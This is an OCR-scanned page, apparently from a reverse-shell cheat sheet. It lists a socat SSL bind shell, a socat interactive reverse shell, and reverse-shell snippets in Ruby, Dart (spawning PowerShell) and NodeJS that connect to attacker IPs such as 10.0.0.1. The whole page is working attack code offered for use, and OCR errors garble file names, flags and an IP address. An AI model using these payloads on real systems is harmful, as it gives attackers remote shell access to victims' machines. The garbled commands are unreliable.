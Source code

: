 ​merge two files to create a usable pem file for socat:

```
cat bind_shett.key bind_shett.crt > bind_shett.pem

socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=e,fork EXEC:/bin
/bash

socat - OPENSSL:1e.11. e .4:443,verify=8
```

### intractive shell

```
socat file:`tty`,raw,echo=0 tcp-listen:4444 → attacker
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  → host
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  
```

## Dart

```
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("10.0.0.1", 4242).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```

## NodeJS

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();


```